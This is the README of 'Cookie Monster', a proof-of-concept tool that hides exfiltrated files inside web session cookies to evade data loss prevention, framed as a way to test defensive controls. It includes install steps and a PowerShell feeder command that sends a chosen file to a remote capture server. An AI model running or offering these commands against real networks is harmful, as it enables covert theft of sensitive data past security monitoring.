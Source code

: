 # Cookie Monster

![alt text](https://github.com/ProfessionallyEvil/cookie-monster/blob/main/CookieMonster.png?raw=true)

## What is Cookie Monster?

Cookie Monster is a proof-of-concept data exfiltration tool. The basic premise behind it is hiding sensitive data in plain sight, within session cookies in web traffic, to evade detection by data loss prevention solutions. It consists of a two parts, a _feeder_ client run from within the target's network, and a _server_ for capturing the feeder's request and reassembling the data.

## Is this a hacking tool?

It can be used to transfer files, however it's a fairly immature, barebones implementation. In it's current form, it's better suited to testing the defensive controls than it is for an significant, malicious activity.

## Installation
The server can be installed by the following command on a system with Node (the current codebase has been primarily tested on Node 18, but some earlier versions should work) `npm install --global @professionallyevil/cookie-monster-exfil`

You will also need a feeder, which can be found attached to the [releases](https://github.com/ProfessionallyEvil/cookie-monster/releases/tag/v2.0.3) on this repo. 

## Usage
### Starting the server
`cookie-monster --out ./outputDir`

### Running the Powershell Feeder 
 1. Import the module: `Import-Module .\CookieMonsterFeeder.ps1`
 1. Send a file with: `Invoke-CMfeed -URL 'https://yourcookiemonsterserver.test' -file .\file.txt`, where the file matches the file you want to send, and the URL is the protocol, hostname, and optionally the port of your server. e.g. `http://127.0.0.1:3000`, `https://professionallyevil.com`.

## Additional Notes
- The core functionality is working, but there is some functionality that is known to be missing. Skim the patch notes (they're concise) for details.
- There's no built-in support for using certificated and TLS directly through this app. If using for actual sensitive data, if is *strongly* recommended that you put it behind a reverse proxy that does support HTTPS, and to only use TLS for it.
